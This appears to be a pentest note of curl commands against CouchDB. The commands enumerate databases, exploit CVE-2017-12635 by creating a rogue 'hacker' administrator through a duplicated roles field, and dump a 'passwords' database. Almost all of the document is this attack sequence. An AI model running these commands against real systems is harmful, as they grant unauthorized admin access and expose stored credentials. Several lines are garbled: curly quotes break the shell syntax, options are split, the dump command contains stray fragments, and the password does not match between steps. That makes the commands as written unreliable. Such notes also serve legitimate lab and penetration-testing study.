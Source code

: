 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```bash - kali
curl http://$TARGET:5984/
```

```bash - kali
curl -X GET http://$TARGET:5984/_all_dbs
```

```bash - kali
curl -X GET http://$USER:$PASSWORD@$TARGET:5984/_all_dbs
```

### CVE-2017-12635 RCE

#### Create `hacker` user
```bash - kali
curl -X PUT ‘http://$TARGET:5984/_users/org.couchdb.user:hacker' -- data-binary ‘{ “type”: “user”, “name”: “hacker”, “roles”: [“_admin”], “roles”: [], “password”: “password” }’
```

#### Dump database
```bash - kali
curl http://$TARGET:5984/passwords/_all_docs?include_docs=true -u hacker:-Xpassword <ds/_all_docs?include_docs=true -u hacker:-Xpassword
```

#### Dump passwords
```bash - kali
curl -X GET http://hacker:passwords@$TARGET:5984/passwords
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

